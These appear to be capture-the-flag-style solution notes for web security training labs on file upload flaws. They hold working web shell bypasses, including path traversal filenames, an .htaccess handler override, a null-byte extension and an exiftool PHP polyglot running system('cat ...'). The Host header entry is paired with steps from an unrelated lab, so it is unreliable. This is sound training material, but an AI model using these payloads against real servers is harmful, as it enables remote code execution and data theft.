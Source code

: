 ```
Lab: Remote code execution via web shell upload

APPRENTICE

This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
```

1. Upload webshell.php
2. cat /home/carlos/secret

---

```
Lab: Host header authentication bypass

APPRENTICE

This lab makes an assumption about the privilege level of the user based on the HTTP Host header.

To solve the lab, access the admin panel and delete the user carlos. 
```

1. Upload webshell.php
2. Change content-type to image/jpeg
3. cat /home/carlos/secret

---

```
Lab: Web shell upload via path traversal

PRACTITIONER

This lab contains a vulnerable image upload function. The server is configured to prevent execution of user-supplied files, but this restriction can be bypassed by exploiting a secondary vulnerability.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
```

1. Upload webshell.php
2. Look that there are no restriction on the upload file functionnality but the php is not interpreted on the location where the file is uploaded
3. Change the filename to perform path traversal in order to uplaod the file where the php can be interpreted
4. filename="..%2Fwebshell.php"
5. Go to files/webshell.php
6. enjoy your RCE
7. cat /home/carlos/secret


---

```
Lab: Web shell upload via extension blacklist bypass

PRACTITIONER

This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed due to a fundamental flaw in the configuration of this blacklist.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
```

1. Upload webshell.php
2. Bypass restriciton with .php5
3. Add this extension via .htaccess as executable :
```
filename=".htaccess"
Content-Type : text/plain
AddType application/x-httpd-php .php5
```
4. Reload your webshell and now it's interpreted
5. cat /home/carlos/secret

---

```
Lab: Web shell upload via obfuscated file extension

PRACTITIONER
LAB Not solved

This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed using a classic obfuscation technique.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
```

1. Upload webshell.php
2. See that only JPEG and PNG are allowed
3. Bypass extension verification with : .php%00.png


---

```
Lab: Remote code execution via polyglot web shell upload

PRACTITIONER

This lab contains a vulnerable image upload function. Although it checks the contents of the file to verify that it is a genuine image, it is still possible to upload and execute server-side code.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
```

1. Upload webshell.php
2. Try to bypass mime type check with :

```bash
exiftool -Comment="<?php echo 'start ' .  system('cat /home/carlos/secret') . ' END'; ?>" dices.png -o polyglot4.php
```

3. Upload polyglot4.php
4. Enjoy RCE

---


```
Lab: Web shell upload via race condition

EXPERT

This lab contains a vulnerable image upload function. Although it performs robust validation on any files that are uploaded, it is possible to bypass this validation entirely by exploiting a race condition in the way it processes them.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter 
```

1. Intercept POST request > put it in intruder
2. Upload this payload :
```php
<?php
   echo file_get_contents('/home/carlos/secret');
?>
```

4. Intercept GET request > put it in the intruser
5. Sniper mode, null payload, continue indefinitely
6. Run both request (POST/GET) in the same time and look the GET request


---
